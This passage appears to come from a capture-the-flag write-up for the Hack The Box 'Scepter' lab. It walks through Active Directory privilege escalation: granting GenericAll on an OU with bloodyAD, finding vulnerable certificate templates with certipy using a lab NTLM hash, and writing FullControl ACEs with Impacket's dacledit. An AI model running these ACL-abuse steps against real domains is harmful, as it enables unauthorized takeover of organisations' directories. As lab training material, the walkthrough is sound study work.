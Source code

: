 Let's give `d.baker` access to the OU.
```bash
bloodyAD --host $TARGET -d scepter.htb -u a.carter -p P@ssword add genericAll "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" d.baker

[+] d.baker has now GenericAll on OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB
```

Now let's grab templates and look for vulnerabilities.
```bash
certipy find -enabled -u "d.baker@scepter.htb" -hashes ":18b5fb0d99e7a475316213c15b6f22ce" -vulnerable

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 13 enabled certificate templates
[*] Trying to get CA configuration for 'scepter-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'scepter-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'scepter-DC01-CA' via RRP
[*] Got CA configuration for 'scepter-DC01-CA'
[*] Saved BloodHound data to '20250420204859_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250420204859_Certipy.txt'
[*] Saved JSON output to '20250420204859_Certipy.json'
```

We can see that `Staff Access Certificate` Contains `D.baker`. Also members of the `staff`(Including `d.baker`) group can enrol certificates.

![scepter-1745118660308.png](/assets/img/img_scepter/scepter-1745118660308.png)

Since we have `GenericAll` access over the OU, let's give our selves `FullControl` with inheritance on `Staff Access Certificate`
```bash
dacledit.py -action write -rights FullControl -target-dn "OU=STAFF ACCESS CERTIFICATE,DC=SCEPTER,DC=HTB" -inheritance -principal a.carter scepter.htb/a.carter:P@ssword

Impacket v0.13.0.dev0+20250107.155526.3d734075 - Copyright Fortra, LLC and its affiliated companies

[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250420-212031.bak
[*] DACL modified successfully!
```
